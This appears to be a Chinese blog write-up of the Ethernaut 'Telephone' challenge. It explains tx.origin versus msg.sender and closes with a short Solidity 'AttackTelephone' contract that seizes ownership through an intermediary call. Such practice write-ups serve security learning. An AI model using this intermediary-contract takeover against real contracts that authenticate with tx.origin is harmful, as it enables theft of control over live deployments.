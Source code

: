 ```yaml
---
title: Ethernaut - Telephone
categories: [Ethernaut]
tags: [以太坊, 智能合约, Ethernaut]
date: 2024-12-21
---
```


第五题，看起来很简单。目标是让

```
tx.origin != msg.sender
```

<!--more-->

# GPT的知识点整理

在以太坊中：

- **`tx.origin`** 是发起整个交易的原始账户地址（最顶层的调用者）。
- **`msg.sender`** 是当前合约调用的直接发送者（可能是外部账户或合约）。

要实现 `tx.origin != msg.sender`，需要通过 **一个中间合约** 调用目标合约：

#### 解决方案：

1. 创建一个 **中间合约**，该合约调用目标合约的方法。

2. 外部用户（你自己）调用中间合约，形成调用链：

    ```
    你 (tx.origin) -> 中间合约 (msg.sender) -> 目标合约
    ```

------

### **表格 1：`tx` 参数说明及设置方法**

`tx` 是全局对象，代表 **当前交易的属性**，但它是只读的，不能直接设置。以下是常见参数：

| 参数名        | 说明                                   | 是否可设置 | 示例设置方法                                    |
| ------------- | -------------------------------------- | ---------- | ----------------------------------------------- |
| `tx.origin`   | 原始交易发起者（外部账户地址）。       | 否         | 由发起交易的外部账户决定，无法通过代码设置。    |
| `tx.gasprice` | 当前交易的 Gas 价格（单位：wei）。     | 否         | 设置 Gas 价格时通过交易选项 `gasPrice` 指定。   |
| `tx.value`    | 当前交易发送的 ETH 数量（单位：wei）。 | 否         | 在发送交易时通过 `value` 参数指定。             |
| `tx.gaslimit` | 当前交易的 Gas 限制。                  | 否         | 在发送交易时通过 `gasLimit` 或 `gas` 参数指定。 |

------

### **表格 2：`msg` 参数说明及设置方法**

`msg` 是 Solidity 中的全局变量，表示当前执行上下文的信息。以下是 `msg` 参数的详细说明：

| 参数名       | 说明                                               | 是否可设置 | 示例设置方法                                                 |
| ------------ | -------------------------------------------------- | ---------- | ------------------------------------------------------------ |
| `msg.sender` | 当前调用的发送者地址（可以是外部账户或合约地址）。 | 否         | 根据谁调用当前合约自动设置（外部账户或上一级合约地址）。     |
| `msg.value`  | 交易中随附的以太币数量（单位：wei）。              | 是         | 在发送交易时通过 `value` 参数指定，例如：`{ value: 1 ether }`。 |
| `msg.data`   | 交易中随附的完整调用数据（包括函数选择器和参数）。 | 是         | 例如：`{data: '0xdd365b8b'}`，调用函数的时候会自动生成data，格式是函数选择器+参数。 |
| `msg.sig`    | 交易中函数选择器（前 4 字节的 `msg.data`）。       | 否         | 根据调用的函数自动生成，不能直接设置。                       |

------

### **如何设置交易参数**

以下是设置交易参数的方式（以 Web3.js 和 ethers.js 为例）：

#### **Web3.js**

```javascript
await contract.methods.someFunction(args).send({
  from: '0xYourAddress',         // 交易发起地址
  value: web3.utils.toWei('1'),  // 发送 1 ETH
  gas: 100000,                   // 设置 Gas 限制
  gasPrice: web3.utils.toWei('20', 'gwei') // 设置 Gas 价格
});
```

#### **ethers.js**

```javascript
const tx = await contract.someFunction(args, {
  value: ethers.utils.parseEther('1'), // 发送 1 ETH
  gasLimit: 100000,                   // 设置 Gas 限制
  gasPrice: ethers.utils.parseUnits('20', 'gwei') // 设置 Gas 价格
});
```

------

### **总结**

- `tx.origin != msg.sender` 的核心是通过中间合约构造调用链。
- `tx` 参数只读，设置交易参数需要通过外部发起交易时指定。
- `msg` 参数由交易上下文决定，可通过控制调用链、发送的 `value` 等间接影响。





# 解题

### 上传智能合约的方法

https://blog.csdn.net/wujian0428/article/details/129260266



### **调用其他智能合约的方法**

1. **通过接口调用**

    - 定义目标合约的接口。
    - 创建接口实例，调用目标函数。

    ```solidity
    interface IExample {
        function doSomething(uint256 value) external;
    }
    
    contract MyContract {
        function callOther(address target, uint256 value) public {
            IExample(target).doSomething(value);
        }
    }
    ```

2. **直接调用（低级调用）**

    - 使用 `.call` 进行底层调用。
    - 适用于未知 ABI 的动态调用。

    ```solidity
    (bool success, ) = target.call(abi.encodeWithSignature("doSomething(uint256)", value));
    require(success, "Call failed");
    ```





```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract AttackTelephone {
    address public targetAddress;

    constructor(address _targetAddress) {
        targetAddress = _targetAddress;
    }

    function attack(address _newOwner) public {
        ITelephone(targetAddress).changeOwner(_newOwner);
    }
}
```

直接在Remix上部署、运行，就攻击成功了。



<img src="./05-Telephone/image-20241221224318309.png" alt="image-20241221224318309" style="zoom:50%;" />
